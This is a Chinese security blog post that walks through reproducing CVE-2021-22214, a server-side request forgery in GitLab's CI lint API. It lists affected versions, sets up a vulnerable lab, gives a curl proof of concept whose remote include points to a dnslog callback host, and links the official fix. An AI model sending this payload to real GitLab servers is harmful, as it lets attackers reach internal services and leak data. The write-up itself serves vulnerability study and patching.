 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/ZAe67rCycsBPqJDqTfwFVw)

**上方蓝色字体关注我们，一起学安全！**

**作者：L0ding****@Timeline Sec  
**

**本文字数：696**

**阅读时长：2～4min**

**声明：仅供学习参考使用，请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

GitLab 是由 GitLabInc. 开发，使用 MIT 许可证的基于网络的 Git 仓库管理工具，具有 issue 跟踪功能。它使用 Git 作为代码管理工具，并在此基础上搭建起来的 web 服务。

**0x02 漏洞概述**  

  

**编号：CVE-2021-22214**  

Gitlab 的 CI lint API 用于验证提供给 gitlab ci 的配置文件是否是 yaml 格式。而根据其说明文档文档，其 include 操作支持 remote 选项，用于获取远端的 yaml。因此在此处将 remote 参数设置为本地回环地址，同时由于后端会检查最后扩展名，加上? test.yaml 即可绕过。  

远程攻击者可通过发送特殊构造的 HTTP 请求，欺骗应用程序向任意系统发起请求。攻击者成功利用该漏洞可获得敏感数据的访问权限或向其他服务器发送恶意请求。

**0x03 影响版本**  

  

13.10.5 > GitLab >= 10.5

13.11.5 > GitLab >= 13.11

13.12.2 > GitLab >= 13.12

**0x04 环境搭建**  

  

以阿里云 centos7.3 为例

首先先添加 yum 源，选择 gitlab-ce 社区版

```
curl -s https://packages.gitlab.com/install/repositories/gitlab/gitlab-ce/script.rpm.sh | sudo bash
```

接着需要更新下 yum 缓存  

```
sudo yum makecache
```

接着获取源中的所有版本  

```
yum list gitlab-ce --showduplicates|sort -r
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgF3ptcCOnAAb6vgj2ibMaIyJW9tfDQ8kdSTLMic9jJra7zFnBChranga2hcjiaZsSpuvEbb9q98d3icA/640?wx_fmt=png)

此时选择存在漏洞的版本安装即可

```
yum install gitlab-ce-13.12.1-ce.0.el7
```

下载完成后使用命令 gitlab-ctl reconfigure 即可默认配置安装 gitlab  

**0x05 漏洞复现**  

  

POC 为：（使用时修改两处即可）

```
curl -s --show-error -H 'Content-Type: application/json' http://目标ip或者域名/api/v4/ci/lint --data '{ "include_merged_yaml": true, "content": "include:\n  remote: http://dnslog/api/v1/targets/?test.yml"}'
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaUcPHya2dj8iagWsfOOGhevWXY3DwOyTHibuPPVibOTJKJdic4iaulibeXKMVLas3JibFUIw6HQqeez9WDw/640?wx_fmt=png)  
![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaUcPHya2dj8iagWsfOOGhevJibPCRDr9NmIkvWCwqRHkPSX3bRicXgkERks77jeffju7vyKA0hoaf3w/640?wx_fmt=png)  

**0x06 修复方式**  

  

当前官方已发布最新版本，建议受影响的用户及时更新升级到最新版本：

https://about.gitlab.com/releases/2021/06/01/security-release-gitlab-13-12-2-released/  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaASAShFz46a4AgLIIYWJQKpGAnMJxQ4dugNhW5W8ia0SwhReTlse0vygkJ209LibhNVd93fGib77pNQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVshAoU3O2dkDTzN0sqCMBceq8o0lxjLtkWHanicxqtoZPFuchn87MgA603GrkicrIhB2IKxjmQicb6KTQ/640?wx_fmt=jpeg)

**阅读原文看更多复现文章**

Timeline Sec 团队  

安全路上，与你并肩前行